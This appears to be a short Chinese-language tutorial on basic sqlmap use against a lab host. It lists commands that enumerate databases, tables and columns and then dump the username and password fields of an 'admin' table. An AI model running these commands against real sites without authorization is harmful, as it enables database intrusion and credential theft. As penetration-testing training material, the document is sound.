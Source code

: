 
# 基本用法

### 获取数据库基本信息

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 --dbs

查询有哪些数据库

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test --tables

查询test数据库中有哪些表

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test -T admin --columns

查询test数据库中admin表有哪些字段

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test -T admin -C "username,password" --dump

dump出字段username与password中的数据

